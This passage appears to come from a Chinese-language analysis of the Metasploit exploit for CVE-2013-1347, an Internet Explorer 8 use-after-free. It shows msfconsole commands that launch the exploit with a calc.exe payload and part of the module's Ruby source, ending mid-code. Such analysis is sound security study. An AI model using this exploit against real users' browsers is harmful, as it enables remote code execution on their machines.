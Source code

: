 ```plaintext
References:
  https://nvd.nist.gov/vuln/detail/CVE-2013-1347
  OSVDB (92993)
  https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2013/MS13-038
  https://www.kb.cert.org/vuls/id/237655
  http://blogs.technet.com/b/msrc/archive/2013/05/03/microsoft-releases-security-advisory-2847140.aspx
  http://r-7.co/IE8-DOL


View the full module info with the info -d command.
```

使用该模块生成木马

```sh
msf6 exploit(windows/browser/ie_cgenericelement_uaf) > set payload windows/exec
msf6 exploit(windows/browser/ie_cgenericelement_uaf) > set CMD calc.exe
msf6 exploit(windows/browser/ie_cgenericelement_uaf) > exploit
```

随后 MSF 将在本地启动 Web Server 并在攻击目标访问时为其恶意 HTML 文件以触发漏洞

## Exploit 分析

该模块的 exp 位于

```plaintext
/usr/share/metasploit-framework/modules/exploit/windows/browser/ie_cgenericelement_uaf.rb
```

exp 的核心代码为

```Ruby
##
# This module requires Metasploit: https://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##

class MetasploitModule < Msf::Exploit::Remote
  Rank = GoodRanking

  include Msf::Exploit::Remote::HttpServer::HTML
  include Msf::Exploit::RopDb
  include Msf::Exploit::Remote::BrowserAutopwn
  autopwn_info({
    :ua_name    => HttpClients::IE,
    :ua_minver  => "8.0",
    :ua_maxver  => "8.0",
    :javascript => true,
    :os_name    => OperatingSystems::Match::WINDOWS,
    :rank       => GoodRanking
  })

  def initialize(info={})
    super(update_info(info,
      'Name'           => "MS13-038 Microsoft Internet Explorer CGenericElement Object Use-After-Free Vulnerability",
      'Description'    => %q{...},
      'License'        => MSF_LICENSE,
      'Author'         => [...],
      'References'     => [...],
      'Payload'        =>
        {
          'BadChars'       => "\x00",
          'Space'          => 1024,
```
